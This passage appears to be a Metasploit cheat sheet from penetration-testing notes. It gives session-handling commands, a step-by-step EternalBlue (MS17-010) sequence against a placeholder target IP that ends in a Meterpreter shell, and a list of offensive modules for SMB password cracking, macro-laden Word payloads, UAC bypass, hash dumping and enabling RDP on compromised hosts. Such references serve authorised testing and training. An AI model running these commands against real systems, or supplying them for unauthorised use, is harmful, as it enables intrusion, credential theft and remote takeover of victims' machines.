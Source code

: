 ```shell
run             #  alias for "exploit"

# move the currently open session to the background and move back to the msfconsole prompt (Ctrl-Z does the same)
background

# exit the context and go back to the top-level Metasploit console
back

# list the existing sessions
sessions

# re-attach a session in the background, using its ID listed with "sessions"
sessions -i 1
```

#### Exploit Example

To check if a target machine is vulnerable to EternalBlue and exploit it to get a Meterpreter shell :
```shell
msfconsole                                     # enter the Metasploit console
setg RHOSTS <TARGET_IP>                        # set the target IP as a global variable
search eternalblue                             # look for modules about EternalBlue
use auxiliary/scanner/smb/smb_ms17_010         # load the scanner (same as "use 3" referencing the search result)
exploit                                        # run the scanner and confirm that the target is vulnerable to EternalBlue
use exploit/windows/smb/ms17_010_eternalblue   # load the EternalBlue exploit module
exploit                                        # run the exploit and obtain a Meterpreter shell on the target
background                                     # put the Meterpreter shell in the background
sessions                                       # see the Meterpreter shell in the background (usable for post-exploit)     
```

#### Useful modules

- `auxiliary/scanner/portscan/tcp` : scan for open TCP ports (similar to Nmap)
- `auxiliary/scanner/smtp/smtp_relay` : detect if an SMTP server allows open relay
- `scanner/discovery/udp_sweep` : scan for open UDP ports
- `scanner/smb/smb_enumshares` : enumerate the shares provided by the SMB service
- `scanner/smb/smb_enumusers` : enumerate the SMB users
- `scanner/smb/smb_login` : crack an SMB user password from a wordlist (we can then use `smbclient` to access a SMB share)
- `exploit/multi/fileformat/office_word_macro` : create a MS Word document containing a macro executing a payload when opened
- `exploit/windows/local/tokenmagic` : UAC bypass to elevate privileges of an existing session to SYSTEM
- `exploit/windows/smb/ms17_010_eternalblue` : open a Meterpreter shell on a machine vulnerable to EternalBlue
- `exploit/windows/smb/psexec` : open a Meterpreter (or any other payload) from a machine using SMB username/password
- `post/linux/gather/hashdump` : post-exploit module to list user password hashes on a Linux target
- `post/multi/manage/shell_to_meterpreter` : convert a shell to a Meterpreter shell
- `post/multi/recon/local_exploit_suggester` : analyze the target system to suggest potential exploits
- `post/windows/gather/enum_shares` : enumerate SMB shares
- `post/windows/manage/enable_rdp` : enable RDP so we can remote desktop to the target machine as a compromised user
